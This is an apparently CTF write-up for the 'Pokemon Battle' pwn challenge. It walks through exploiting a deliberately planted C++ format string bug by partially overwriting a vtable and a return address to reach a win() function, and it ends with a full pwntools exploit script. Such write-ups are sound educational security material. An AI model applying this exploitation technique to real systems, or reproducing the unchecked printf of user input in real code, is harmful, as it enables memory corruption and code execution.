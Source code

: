 ## Pokemon Battle
![pokemon](images/pokemon.png)

### Description
>Author: Neobeo\
>Gary wants to challenge you to a virtual battle. Be sure to choose your pokemon well! Here's an early leak of the game, but you should know that it's incomplete and there's currently no way to win.\
>nc fun.chall.seetf.sg 50005\
>MD5: a07506f402f6a3b18ca8ee5f5642a570


### Gain Shell
Format string vuln challenge with given source code c++ for the challenge. The source code its look like this
```c++
// g++ pokemonbattle.cpp -w -o pokemonbattle
#include <iostream>

struct {
    char pokemon[13]; // longest pokemon name is 12 letters (Crabominable)
    virtual void Battle() {
        printf("Let the battle begin...\n");
        // @todo: implement an actual battle
        printf("Your pokemon was defeated. You blacked out!\n");
    }
    virtual void Play() {
        printf("Choose a pokemon: ");
        std::cin.getline(pokemon, sizeof pokemon);
        printf(pokemon);
        printf(", I choose you!\n");
        Battle();
    }
} battler;

int main() {
    battler.Play();
}

void win() {
    system("cat flag.txt");
}
```

The PIE was enabled, and we only have one formatstring with 13 size of input. Where to overwrite?\
In C++, we can overwrite **vtable** of **battler**. Look here at gdb:
![pokemon](images/pokemon2.png)
The program will `call rdx` and rdx come from **vtable of battler**, if we overwrite the vtable to another address and that address contains address of **win** then gameover! We got the shell. Simply our goal is like this

```
Before:
0x555555558150 (batler) -> 0x555555557d68 (vtable) -> 0x5555555551ea (Battle())

After:
0x555555558150 (batler) -> (any_address) -> (win())
``` 

To do our goal before it will write many input and its too complicated. So change our goal to overwrite the return address of **Battle()** to **win()**


Alright, first we need more than one formatstring, to do that we need overwrite vtable to **Play()** again.
Now how to overwrite the vtable? We only have one time formatstring. And the formatstring is in **BSS** not in stack, so we cant use technique like usual.

![pokemon](images/pokemon4.png)

So we must overwrite just 1 bytes vtable from **0x68** to **0x70**. To do that because the address of battler is at offset 7 on formatstring. We can use that offset to overwrite the vtable.
![pokemon](images/pokemon5.png)
So if we input like `%7$n` on formatstring vuln. It will overwite to the inside of that address. For example we got leak address of **battler** with input `%7$p`. So if we input like `%10c%7$n` the address of **battler** will be like this `0x555555558150 (battler) -> 0x000000000000000a`. We just need ovewrite 1 bytes so we use **$hhn** instead of **$n**

```py
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)
```

![pokemon](images/pokemon6.png)

Now we have unlimited formatstring. If you look at the stack rightnow the stack step back 0x20.

![pokemon](images/pokemon6.png)

Its because when we call **Play()** again the stack reduced by 0x20. Our goal is to overwrite address of return which is located at
`0x7fffffffdd78 -> 0x00005555555552b7 (return main+20)`. But we dont have that stack on any offset at formatstring.\
But we do have `0x7fffffffdd70` at offset 8 and `0x7fffffffdd80` at offset 12.

```
0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd80 (offset 12)
```

Like we overwrite the vtable before, if we do `%8$n` it will overwrite the address in `0x7fffffffdd70`. So how we do like this.
```
Overwrite value offset 8 to 0x78, %120c%8$hhn
The address will be like

0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd78 (offset 12)
0x7fffffffdd78 -> 0x00005555555552b7
```
So when we input %12$p it will become `0x00007fffffffdd78` with this we can overwrite the return address!. Oh I told before after we back to **Play()** again, the stack move 0x20, so the offset will be move everytime we do a formatstring. And found the correct offset for the addresss `0x00007fffffffdd78` is **16**.

```py
#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

p.sendline("%16$p")
#0x7fffffffdd78
```

Alright with this we can simply do the sametrick when we do `%16$n` it will overwrite the return address which is the **main()** function. After that just overwrite vtable back to **Battle()** and we got shell!. Because there's stack alignment error when call **win()** function. Instead of overwrite to start address of **win()** we overwrite to here:
```bash
pwndbg> p &win
$1 = (<text variable, no debug info> *) 0x5555555552be <win()>
pwndbg> disass 0x5555555552be
Dump of assembler code for function _Z3winv:
   0x00005555555552be <+0>:	endbr64 
   0x00005555555552c2 <+4>:	push   rbp
   0x00005555555552c3 <+5>:	mov    rbp,rsp
   0x00005555555552c6 <+8>:	lea    rdi,[rip+0xdaa]        # overwrite to here
   0x00005555555552cd <+15>:	call   0x5555555550c0 <system@plt>
```
Overwrite to **0xc6**.\
With this now we solve the challenge.

Full script:

```py
from pwn import *
from sys import *

context.log_level = 'warning'
elf = context.binary = ELF("./pokemonbattle")
p = process("./pokemonbattle")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50005

cmd = """
b*0x555555555274
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

# p.sendline("%16$p")
# #0x7fffffffdd78

#gdb.attach(p,cmd)
payload = f"%{0xc6}c"
payload += "%16$hhn"
p.sendline(payload)


payload = f"%{0x68}c"
payload += "%7$hhn"
p.sendline(payload)
p.interactive()
```